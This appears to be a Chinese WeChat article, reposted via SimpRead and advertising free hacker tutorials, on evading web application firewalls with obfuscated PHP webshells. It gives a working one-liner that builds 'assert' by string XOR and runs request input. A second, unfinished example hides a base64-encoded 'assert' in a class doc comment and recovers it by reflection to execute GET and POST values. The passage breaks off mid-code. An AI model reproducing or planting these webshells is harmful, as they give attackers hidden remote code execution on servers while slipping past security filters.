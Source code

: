 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RtoWJC4RVYq40YBsL3NjUQ)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fuBhZCW25hNtiawibXa6jdibJO1LiaaYSDECImNTbFbhRx4BTAibjAv1wDBA/640?wx_fmt=png)

扫码领资料

获黑客教程

免费 & 进群

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFJNibV2baHRo8G34MZhFD1sjTz4LHLiaKG9208VTU6pdTIEpC9jlW6UVfhIb9rHorCvvMsdiaya4T6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png)

本文由团队 - 手电筒分享

**更多免费视频教程，渗透思路技巧，欢迎扫码领取哦，看完视频直接做靶场练手! 熟****悉相关技能的原理，熟悉相关技能的操作。**

****看我平常都是如何绕 WA********F 的！****

**1.php 的异或运算**

```
$a="~+d()"^"!{+{}"
```

这个表示了 $a = 这两个字符串之间进行一个异或运算

  
运算异或运算符，按二进制位进行异或运算

  
这里的运算会把符号转化为 ascii 码，再转化为二进制，再转化为十进制进行运算，再把结果转化为 ascii 码

  
通过这个转换的方式来绕过检测

```
<?php
$a= ("!"^"@").'ssert';
$a($_REQUEST[x]);
?>
```

测试可以成功连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4v9G1CB8BN9xGqVIXDGpfVcUbwj7ia7ro8q9BUWaPOUYHCZniaslGWDpQ/640?wx_fmt=png)

**2. 通过获取注释去绕过**

```
<?php
/**
YXNzZXJ0YmZnZmc=
*/
class Example
{
    public function fn()
    {
    }
}
通过一个空的类去获取，
$reflector = new ReflectionClass('Example'); //这里为通过反射获取类的注释
$zhushi = substr(($reflector->getDocComment()), 7, 12);然后去截断获取注释里的字符,注意getDocComment只能通过文件最开始的类来调用才会把注释内容显示
//echo $zhushi;
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
echo $zhushi;
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
```